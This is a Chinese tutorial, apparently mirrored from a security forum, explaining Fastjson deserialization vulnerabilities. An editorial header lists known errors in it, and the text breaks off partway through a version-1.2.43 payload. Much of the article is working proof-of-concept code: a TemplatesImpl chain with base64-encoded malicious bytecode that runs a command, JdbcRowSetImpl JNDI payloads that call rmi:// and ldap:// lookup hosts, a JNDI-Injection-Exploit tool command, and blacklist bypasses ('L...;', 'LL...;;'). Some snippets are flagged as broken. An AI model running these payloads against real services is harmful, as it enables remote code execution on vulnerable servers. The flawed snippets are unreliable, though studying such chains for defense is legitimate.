## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=24,25–41,42,43,25–47 cache boundary32/33,68 and62/66; JDK8u65/181, TomcatDBCP9.0.63, CommonsIO2.5 and variants

代码与实验材料：Student demos, setter/getter distinctions, source traces, Templates/BCEL and Spring mapping code; blank C3P0 section; several code fragments intentionally incomplete but unlabeled

来源证据范围：Butian2858 original plus mi1k7ea/goodapple/Y4er/research links; images hosted Qianxin

- **适用与权限边界（1）**：Unqualified Object.class can instantiate all classes and all getter/setter claims ignore version/filters/config; SafeMode later-defaulttrue claim unsupported。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（2）**：Multiple source snippets fail as written or lack correct invocation/type handling；依据：defineClass name Test vs embedded org/example/Test; open -a calculator as single executable; raw Map.Entry values assigned arrays。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（3）**：Explicit getter/property examples do not inspect private values yet conclude equal behavior; BCEL requires JDK class availability; modern JDK version parsing uses legacy second dotted segment。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **代码与转录边界（4）**：Empty C3P0 heading, absent fixes, truncated CommonsIO JSON and erroneous final Templates field ordering/types。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 奇安信攻防社区 - Java 安全 - FastJson 系列详解

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [forum.butian.net](https://forum.butian.net/share/2858)

> 奇安信攻防社区 - Java 安全 - FastJson 系列详解

简介
--

Fastjson 是 Alibaba 开发的 Java 语言编写的高性能 JSON 库，用于将数据在 JSON 和 Java Object 之间互相转换，提供两个主要接口 JSON.toJSONString 和 JSON.parseObject/JSON.parse 来分别实现序列化和反序列化操作。

使用 Fastjson 进行序列化和反序列化
----------------------

‍

定义的一个学生类，其中包含两个属性及其 getter/setter 方法，还有类的构造函数

```
public class Student {
    private String name;
    private int age;

    public Student() {
        System.out.println("构造函数");
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public int getAge() {
        System.out.println("getAge");
        return age;
    }

    public void setAge(int age) {
        System.out.println("setAge");
        this.age = age;
    }
}


```

调用 JSON.toJsonString() 来序列化 Student 类对象

```
public class FJTest {
    public static void main(String[] args){

        Student student = new Student();
        student.setName("zjacky");
        student.setAge(20);
        String jsonstring = JSON.toJSONString(student); 
        System.out.println(jsonstring);

    }
}


```



反序列化

```
public class FJTest {
    public static void main(String[] args){

        Student xiaoming = JSON.parseObject("{\"age\":20,\"name\":\"zzzjjjjaaaacccckkkkkyyyy\"}",Student.class);
        System.out.println("Name: "+xiaoming.getName());
        System.out.println("Age: "+xiaoming.getAge());

    }
}


```



其实这里的反序列化也很简单，我的序列化字符串经过 JSON.parseObject() 处理后会实例化我的 Student 类然后触发了构造函数，然后以此调用了 set 方法来给我们这个对象当中的属性进行赋值也就是单纯一个反序列化他就会这么执行



这就是 fastjson 的反序列化

‍

那么这里就存在一个问题了



其实很好理解，就是我要反序列化的类的属性名跟 json 的 key 对应的字段名是一样的 ，所以就可以用直接类的映射来填入即可，name 跟 age 是类的属性名，json 字符串也是 name 跟 age

‍

@type 是什么？
----------

‍



```
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import java.io.IOException;
import java.io.IOException;

public class Main {
    public static void main(String[] args) throws IOException {

        String json = " {\"@type\":\"java.lang.Runtime\",\"@type\":\"java.lang.Runtime\",\" @type\":\"java.lang.Runtime\"}";
            ParserConfig.getGlobalInstance().addAccept("java.lang");
            Runtime runtime = (Runtime) JSON.parseObject(json,
                    Object.class);
            runtime.exec("calc.exe");

            }
    }


```

‍





‍

<span>SerializerFeature.WriteClassName(序列化)</span>
--------------------------------------------------

在序列化的时候 oJSONString() 还有一个参数 叫 < span>SerializerFeature.WriteClassName </span>

SerializerFeature.WriteClassName，是 JSON.toJSONString() 中的一个设置属性值，设置之后在序列化的时候会多写入一个 @type，即写上被序列化的类名，type 可以指定反序列化的类，并且调用其 getter/setter/is 方法。 Fastjson 接受的 JSON 可以通过 @type 字段来指定该 JSON 应当还原成何种类型的对象，在反序列化的时候方便操作



如图

```
public class FJTest {
    public static void main(String[] args){

        Student student = new Student();
        student.setName("zjacky");
        student.setAge(20);
        String jsonstring = JSON.toJSONString(student, SerializerFeature.WriteClassName); 
        System.out.println(jsonstring);

    }
}


```



‍

Feature.SupportNonPublicField(反序列化)
-----------------------------------

如果需要还原出 private 属性的话，还需要在 JSON.parseObject/JSON.parse 中加上 Feature.SupportNonPublicField 参数。

啥意思呢？其实就是说它能够获取到私有变量的值

比如写如下 demo

这里的 age 和 name 都是私有的，我们能通过刚才上述的 JSON.parseObject("{\"age\":20,\"name\":\"zzzjjjjaaaacccckkkkkyyyy\"}",Student.class); 这个反序列化能够得到 age 是因为存在 setage 这个方法进行了设置，如果这里我吧 setage 方法删掉 看下代码

```
package fastjson;
public class Student {
    private String name;
    private int age;

    public Student() {
        System.out.println("构造函数");
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public int getAge() {
        System.out.println("getAge");
        return age;
    }


}


```

这里再进行一次反序列化

```
public class FJTest {
    public static void main(String[] args){

        Student xiaoming = JSON.parseObject("{\"age\":20,\"name\":\"zzzjjjjaaaacccckkkkkyyyy\"}",Student.class);
        System.out.println("Name: "+xiaoming.getName());
        System.out.println("Age: "+xiaoming.getAge());

    }
}


```



我们获取到的是 初始化的值 为 0

但是这里我们加上 Feature.SupportNonPublicField 即可获得该私有变量

```
package fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class FJTest {
    public static void main(String[] args){

        Student xiaoming = JSON.parseObject("{\"age\":20,\"name\":\"zzzjjjjaaaacccckkkkkyyyy\"}",Student.class, Feature.SupportNonPublicField);
        System.out.println("Name: "+xiaoming.getName());
        System.out.println("Age: "+xiaoming.getAge());

    }
}


```



也就是说，若想让传给 JSON.parseObject() 进行反序列化的 JSON 内容指向的对象类中的私有变量成功还原出来，则需要在调用 JSON.parseObject() 时加上 Feature.SupportNonPublicField 这个属性设置才行。

‍

反序列化时几种类型设置的比较
--------------

再来看下 parseObject() 的指定或不指定反序列化类型之间的差异

由于 Fastjson 反序列化漏洞的利用只和包含了 @type 的 JSON 数据有关，因此这里我们只对序列化时设置了 SerializerFeature.WriteClassName 即含有 @type 指定反序列化类型的 JSON 数据进行反序列化

如下 demo

Student 类，添加两个 private 成员变量，且所有的私有成员变量都不定义 setter 方法

```
package fastjson;

public class Student {
    private String name;
    private int age;
    private String address;
    private String sex;

    public Student() {
        System.out.println("构造函数");
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public int getAge() {
        System.out.println("getAge");
        return age;
    }

    public String getAddress() {
        System.out.println("getAddress");
        return address;
    }

    public String getsex() {
        System.out.println("getsex");
        return sex;
    }
}


```

我序列化出来的值为

```
{"@type":"fastjson.Student","age":20,"name":"zjacky","sex":"男"}


```

##### 未设置 Feature.SupportNonPublicField

反序列化

```
public class UnSerFJTest {
    public static void main(String[] args){

        String jsonstring = "{\"@type\":\"fastjson.Student\",\"age\":20,\"name\":\"zjacky\",\"sex\":\"男\"}";
        Object obj = JSON.parseObject(jsonstring, Student.class);
        System.out.println(obj);
        System.out.println(obj.getClass().getName());
    }
}


```



‍

##### 设置 Feature.SupportNonPublicField

```
public class UnSerFJTest {
    public static void main(String[] args){

        String jsonstring = "{\"@type\":\"fastjson.Student\",\"age\":20,\"name\":\"zjacky\",\"sex\":\"男\"}";
        Object obj = JSON.parseObject(jsonstring, Student.class, Feature.SupportNonPublicField);
        System.out.println(obj);
        System.out.println(obj.getClass().getName());
    }
}


```

输出，发现和未设置 Feature.SupportNonPublicField 的是一致的：

小结一下
----

根据前面的结果，有如下结论：

*   当反序列化为`JSON.parseObject(*)`形式即未指定 class 时，会调用反序列化得到的类的构造函数、所有属性的 getter 方法、JSON 里面的非私有属性的 setter 方法，其中 properties 属性的 getter 方法调用了两次；
*   当反序列化为`JSON.parseObject(*,*.class)`形式即指定 class 时，只调用反序列化得到的类的构造函数、JSON 里面的非私有属性的 setter 方法、properties 属性的 getter 方法；
*   当反序列化为`JSON.parseObject(*)`形式即未指定 class 进行反序列化时得到的都是 JSONObject 类对象，而只要指定了 class 即`JSON.parseObject(*,*.class)`形式得到的都是特定的 Student 类；

‍

parse 与 parseObject 区别
----------------------

FastJson 中的 parse() 和 parseObject() 方法都可以用来将 JSON 字符串反序列化成 Java 对象，parseObject() 本质上也是调用 parse() 进行反序列化的。但是 parseObject() 会额外的将 Java 对象转为 JSONObject 对象，即 JSON.toJSON()。所以进行反序列化时的细节区别在于，parse() 会识别并调用目标类的 setter 方法及某些特定条件的 getter 方法，而 parseObject() 由于多执行了 JSON.toJSON(obj)，所以在处理过程中会调用反序列化目标类的所有 setter 和 getter 方法。

```
String text = JSON.toJSONString(obj); 


VO vo = JSON.parse();  
VO vo = JSON.parseObject("{...}");  
VO vo = JSON.parseObject("{...}", VO.class);  


```

可以推测出在反序列化过程中，会`parse()`先调用 @type 标识的类的构造函数，然后再调用 setter 给对象赋值。

而 parseObject() 方法会同时调用所有的 setter 和 getter

‍

漏洞原理
----

通过 Fastjson 反序列化漏洞，攻击者可以传入一个恶意构造的 JSON 内容，程序对其进行反序列化后得到恶意类并执行了恶意类中的恶意函数，进而导致代码执行。

‍

getter setter 条件
----------------



‍

<span> 如何才能够反序列化出恶意类呢 </span>
-----------------------------

由前面 demo 知道，Fastjson 使用 parseObject()/parse() 进行反序列化的时候可以指定类型。如果指定的类型太大，包含太多子类，就有利用空间了。例如，如果指定类型为 Object 或 JSONObject，则可以反序列化出来任意类。例如代码写`Object o = JSON.parseObject(poc,Object.class)`就可以反序列化出 Object 类或其任意子类，而 Object 又是任意类的父类，所以就可以反序列化出所有类。

‍

看如下案例 一个 java bean 类

```
import java.io.IOException;

public class Calc {
    public String calc;

    public Calc() {
        System.out.println("调用了构造函数");
    }

    public String getCalc() {
        System.out.println("调用了getter");
        return calc;
    }

    public void setCalc(String calc) throws IOException {
        this.calc = calc;
        Runtime.getRuntime().exec("calc");
        System.out.println("调用了setter");
    }
}


```

序列化

```
public class SerFJTest {
    public static void main(String[] args) throws IOException {
        Calc calc = new Calc();
        calc.setCalc("zjacky");
        String jsonstring = JSON.toJSONString(calc, SerializerFeature.WriteClassName); 
        System.out.println(jsonstring);
    }
}


```

反序列化

```
import com.alibaba.fastjson.JSON;

public class Fastjson_Test {
    public static void main(String[] args) {
        String JSON_Calc = "{\"@type\":\"Calc\",\"calc\":\"Faster\"}";
        System.out.println(JSON.parseObject(JSON_Calc));
    }
}


```



成功执行了 setter 中的恶意代码。因此，只要我们能找到一个合适的 Java Bean，其 setter 或 getter 存在可控参数，则有可能造成任意命令执行。

‍

总结出一句话就是 fastjson 他反序列化的时候会去找到 @type 这个指定类的全部属性的 seter geter 方法来进行自动调用，也就是说如果存在一个可控的指定类，以及这个指定类中存在可控的 set get 方法，就可以通过这个 fastjson 去调用 set 方法去达到任意命令执行

‍

参考

[https://www.mi1k7ea.com/2019/11/03/Fastjson%E7%B3%BB%E5%88%97%E4%B8%80%E2%80%94%E2%80%94%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%9F%BA%E6%9C%AC%E5%8E%9F%E7%90%86/#%E6%9C%AA%E8%AE%BE%E7%BD%AEFeature-SupportNonPublicField](https://www.mi1k7ea.com/2019/11/03/Fastjson%E7%B3%BB%E5%88%97%E4%B8%80%E2%80%94%E2%80%94%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%9F%BA%E6%9C%AC%E5%8E%9F%E7%90%86/#%E6%9C%AA%E8%AE%BE%E7%BD%AEFeature-SupportNonPublicField)

[https://goodapple.top/archives/832](https://goodapple.top/archives/832)

‍

‍

Fastjson 各版本漏洞绕过分析
------------------

### fastjson<=1.2.24

配置

```
            com.alibaba
            fastjson
            1.2.23


```

在小于 fastjson1.2.22-1.2.24 版本中有两条利用链。

1.  JNDI `com.sun.rowset.JdbcRowSetImpl`
2.  JDK7u21 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`

#### TemplatesImpl 链 (JDK7u21)

条件苛刻

1.  服务端使用 parseObject() 时，必须使用如下格式才能触发漏洞：`JSON.parseObject(input, Object.class, Feature.SupportNonPublicField)`
2.  服务端使用 parse() 时，需要`JSON.parse(text1,Feature.SupportNonPublicField)`

##### 漏洞静态分析

后半条链子是 (CC3) JDK7u21 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`

[https://blog.csdn.net/solitudi/article/details/119082164](https://blog.csdn.net/solitudi/article/details/119082164)

首先参考 Y4 的博客了解到 defineClass 的使用

```
public class TouchFile{

    public TouchFile() throws Exception {
        Runtime.getRuntime().exec("calc");
    }

}


```

存在一个构造方法，构造方法中存在命令执行

把它编译成字节码后再 base64 运行

```
Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
defineClass.setAccessible(true);
byte[] code =Base64.getDecoder().decode("yv66vgAAADQAHwoABgASCgATABQIABUKABMAFgcAFwcAGAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQASTG9yZy9leGFtcGxlL1Rlc3Q7AQAKRXhjZXB0aW9ucwcAGQEAClNvdXJjZUZpbGUBAAlUZXN0LmphdmEMAAcACAcAGgwAGwAcAQAEY2FsYwwAHQAeAQAQb3JnL2V4YW1wbGUvVGVzdAEAEGphdmEvbGFuZy9PYmplY3QBABNqYXZhL2xhbmcvRXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAUABgAAAAAAAQABAAcACAACAAkAAABAAAIAAQAAAA4qtwABuAACEgO2AARXsQAAAAIACgAAAA4AAwAAAB0ABAAeAA0AHwALAAAADAABAAAADgAMAA0AAAAOAAAABAABAA8AAQAQAAAAAgAR");
Class yyds= (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(), "Test", code, 0, code.length);
yyds.newInstance();


```

确实是可以弹出计算机的 (这里有点问题 之后在解决)

‍

也就是说如果能找到 defineClass 方法并且参数可控，那么就可以造成 RCE 了，那么于是乎这条链子的作者在`rt.jar`中找到了 defineClass

`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.TransletClassLoader.defineClass()`

```
Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }


```

但是在实际场景中，因为 defineClass 方法作用域却是不开放的 (就是并不是 public 方法，所以需要找谁去调用了他)，所以我们很很难直接利用到它

所以我们要去找谁调用了这个`defineClass`函数 ，于是找到了`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#defineTransletClasses()`

‍



这里`_bytecodes` 不能为空



‍



‍

‍

这里会将我们的`_bytecodes`加载进`_class`这个当中，所以这里就要传我们的`_bytecodes`

‍

在往上跟

于是找到了`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance()`

TemplatesImpl 中`_bytecodes`属性中存放着手工编写的字节码，并在其调用`getTransletInstance()`方法时会加载该字节码到 JVM 中获取到字节码中的类并调用 newInstance() 创建该类的实例，如果`_bytecodes`为可控的并且能找到一条触发 getTransletInstance() 方法的调用链，那么 rce 不就有了嘛。

‍



在这里 455 行里头会把_class 进行实例化从而会执行这个实例化所调用的静态方法和构造方法

当看完上述代码 你是否存在以下几个疑问？

1.  `_class` 这玩意在 451 行的时候是为空才能进入，为啥后面 455 又有内容了呢？ -> 因为根本没传`_class` 而是在 451 行通过`_bytecodes`进行传入的
2.  455 行会去进行强制类型转换为`AbstractTranslet`类，那我们是不是要传该类进来呢？
3.  我的`_name`不能为空啊，不然的话就会返回 null



‍

再往上跟

于是找到了`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer()`



再继续往上跟就找到了

`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties()`



‍



‍

```
TemplatesImpl#getOutputProperties() ->
TemplatesImpl#newTransformer() ->
TemplatesImpl#getTransletInstance() ->
TemplatesImpl#defineTransletClasses() ->
TransletClassLoader#defineClass()


```

‍

这里其实还有一个疑问，那就是传入的 get 方法难道不是叫`get_outputProperties`吗？

其实这里在 fastjson 中会有一个特殊的处理



‍





‍



‍

整条 TemplatesImpl 链就跟完了

先贴出 poc

```
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
public class Jdbc {
    public static void main(String[] args) throws Exception {
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String evilCode_base64 = "yv66vgAAADQAJAoABwAWCgAXABgIABkKABcAGgcAGwoABQAWBwAcAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHAB0BAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYHAB4BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAApTb3VyY2VGaWxlAQAMUGF5bG9hZC5qYXZhDAAIAAkHAB8MACAAIQEABGNhbGMMACIAIwEAE29yZy9leGFtcGxlL1BheWxvYWQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAcAAAAAAAQAAQAIAAkAAgAKAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAsAAAAOAAMAAAANAAQADgANAA8ADAAAAAQAAQANAAEADgAPAAIACgAAABkAAAADAAAAAbEAAAABAAsAAAAGAAEAAAAUAAwAAAAEAAEAEAABAA4AEQACAAoAAAAZAAAABAAAAAGxAAAAAQALAAAABgABAAAAGQAMAAAABAABABAACQASABMAAgAKAAAAJQACAAIAAAAJuwAFWbcABkyxAAAAAQALAAAACgACAAAAHAAIAB0ADAAAAAQAAQANAAEAFAAAAAIAFQ==";
                String payload =  "{\"@type\":\"" + NASTY_CLASS + "\",\"_bytecodes\":[\"" + evilCode_base64 + "\"],'_name':'asd','_tfactory':{ },\"_outputProperties\":{ }," + "\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";

        JSON.parse(payload, Feature.SupportNonPublicField);
    }
}


package org.example;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Payload extends AbstractTranslet {

    public Payload() throws IOException{
        Runtime.getRuntime().exec("calc");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    public static void main(String[] args) throws IOException {
        Payload payload = new Payload();
    }
}


```

‍

‍



##### 小结一下 TemplatesImpl 链

其实就是在 fastjson 的反序列化当中在 autotype 开启下，去寻找了 templateslmpl 这条链子，这条链子的一些初始化属性的 get 方法可以拼接到后续的 jdk7u21 的后半段链子当中然后通过 defineClass 来加载的恶意字节码来达到 RCE 的效果

‍

动态分析一下 在这里打下断点`com.alibaba.fastjson.serializer.ObjectArrayCodec#deserialze`



在 153 行的地方将`_bytecodes`的内容作为参数 传入`parseArray()`中



然后再这里调用了反序列化器进行反序列化



然后就会走到这个逻辑



重点就是这段代码

```
byte[] bytes = lexer.bytesValue();


```

调用 lexer.bytesValue 获取 bytes

这里对数据进行 base64 解码处理，将 bytes 数据返回。所以`_bytecodes`需要进行 base64 编码。


然后后续就是链子了



‍

‍

‍

‍

‍

##### 参考链接

*   [https://forum.butian.net/share/1092](https://forum.butian.net/share/1092)
*   [https://www.cnblogs.com/akka1/p/16138460.html](https://www.cnblogs.com/akka1/p/16138460.html)
*   [https://y4er.com/posts/fastjson-learn/](https://y4er.com/posts/fastjson-learn/)
*   [https://www.cnblogs.com/nice0e3/p/14601670.html](https://www.cnblogs.com/nice0e3/p/14601670.html)#

‍

#### <span>JdbcRowSetImpl 链 (JNDI)</span>

问题出在`JdbcRowSetImpl#setDataSourceName`和`JdbcRowSetImpl#setAutoCommit`方法中存在可控的参数

首先在`com.sun.rowset.JdbcRowSetImpl`存在`setAutoCommit` 方法



在 this.conn 为空的情况下会调用`this.connect();` 方法 跟进一下



这个的话很明显的一个 lookup 函数配合 JNDI

```
InitialContext var1 = new InitialContext();
DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());


```

那只要保证`this.getDataSourceName() != null` 就可以触发这个 JNDI 了，所以建立一个小 Demo

```
package org.example;

import com.sun.rowset.JdbcRowSetImpl;
public class Jdbc {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();
        JdbcRowSetImpl_inc.setDataSourceName("rmi://127.0.0.1:1099/7nt2gi"
        );
        JdbcRowSetImpl_inc.setAutoCommit(true);
    }
}


```



这里的 rmi 是通过这个 jndi 利用工具起的

```
D:\Environment-Java\jdk1.8.0_65\bin\java.exe -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc"


```

‍

另一个函数就是`setDataSourceName`



‍

他会调用父类的`setDataSourceName`然后去设置`dataSource`参数



而 lookup 函数的参数其实就是 datasource 这个参数



但其实都是有限制的

在以下三种反序列化中均可使用，JDK 版本限制和 JNDI 类似

##### RMI+JNDI

JDK 版本为`JDK8u_65`

```
import com.alibaba.fastjson.JSON;

public class Fastjson_Jdbc_RMI {
    public static void main(String[] args) {
        String payload = "{" +
                "\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/badClassName\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}


```

‍

##### LDAP+JNDI

JDK 版本为`JDK8u_181`

```
import com.alibaba.fastjson.JSON;

public class Fastjson_Jdbc_LDAP {
    public static void main(String[] args) {
        String payload = "{" +
                "\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:9999/EXP\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}


```



‍

‍

### fastjson 1.2.25 - 1.2.41

‍

#### 黑白名单的绕过

在 fastjson 自爆 1.2.24 版本的反序列化漏洞后，1.2.25 版本就加入了黑白名单机制

执行了上述代码后 会提示你`autoType is not support`



我们可以查看 `com.alibaba.fastjson.parser.ParseConfig`的源码可以看到加入了黑名单字眼

‍



具体为

```
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload,org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss,org.mozilla.javascript
org.python.core
org.springframework


```

我们去看一下`checkAutoType()`方法

‍

如果是`autoTypeSupport` 开启了为 true 就会去将 @type 的类去匹配白名单，如果匹配到了白名单就用`TypeUtils.loadClass` 去加载这个类



然后如果不是白名单，就去匹配黑名单，匹配到了黑名单就会返回 `autoType is not support`



‍

如果没开`autoTypeSupport` 他就会先去匹配黑名单，是黑名单里头的就 `autoType is not support`



如果匹配不到黑名单，那么就匹配白名单，存在就加载，不存在就说匹配不到

最后如果要反序列化的类和黑白名单都未匹配时，只有开启了 autoType 或者 expectClass 不为空也就是指定了 Class 对象时才会调用 TypeUtils.loadClass 加载，否则 fastjson 会默认禁止加载该类 <span>。</span>



‍

我们跟进一下这里的 <span>loadClass</span > 方法

然后这里有一个很奇怪的写法导致了问题的产生，





*   如果以`[`开头则去掉`[`后进行类加载（在之前 Fastjson 已经判断过是否为数组了，实际走不到这一步）
*   如果以`L`开头，以`;`结尾，则去掉开头和结尾进行类加载
*   ‍

所以在 1.2.41 之前就可以利用上述的处理机制来绕过黑白名单的限制

‍


Fastjson 默认 AutoTypeSupport 为`False`（默认开启白名单机制），需要通过服务端使用以下代码手动关闭，这一点是高版本一个难以绕过的地方。

```
ParserConfig.getGlobalInstance().addAccept("org.example.,org.javaweb.");
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
加上JVM启动参数：-Dfastjson.parser.autoTypeAccept=org.example.
在fastjson.properties中添加：
fastjson.parser.autoTypeAccept=org.example.


```

那么其实也就很简单，只要以`L`开头，以`;`结尾就可以绕过了，这也就是 <=1.2.41 的绕过方式

```
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
public class Jdbc {
    public static void main(String[] args) throws Exception {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\"," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/nhdzhn\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}


```



‍

### fastjson=1.2.42

1.2.42 相较于之前的版本，关键是在`ParserConfig.java`中修改了以下两点

*   黑名单改为了 hash 值，防止绕过
*   对于传入的类名，删除开头`L`和结尾的`;`



发现黑名单全是 hash 了

但是可以仔细查看这个 check 的逻辑

其实这里进行了一个加密的混淆 虽然说利用 hash 可以让我们不知道禁用了什么类，但是加密方式是有写`com.alibaba.fastjson.parser.ParserConfig#addDeny`中的`com.alibaba.fastjson.util.TypeUtils#fnv1a_64`，我们理论上可以遍历 jar，字符串，类去碰撞得到这个 hash 的值。（因为常用的包是有限的）


在上述的逻辑当中，看看 GPT 如何解释



其实也可以看明白就是类似截取字符，把第一个字符跟倒数第一个字符进行截取 (那么想到上一个版本的 fastjson 是`L`跟`;`，并且这个版本的黑名单是 hash 进行混淆了，并且也给出了加密的代码，所以说 (牛子) 很容易想到是先前的过滤，那么跟 CTF 一样，他过滤了一次，但是并没有过滤多次，所以双写绕过即可)

‍

```
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
public class Jdbc {
    public static void main(String[] args) throws Exception {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\"," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/nhdzhn\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}


```



‍

### fastjson=1.2.43

1.2.43 版本修改了`checkAutoType()`的部分代码，对于 LL 等开头结尾的字符串直接抛出异常。



但他也没对`[`进行限制啊？

我们可以通过`[{`绕过，Payload 如下

```
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
public class Jdbc {
    public static void main(String[] args) throws Exception {
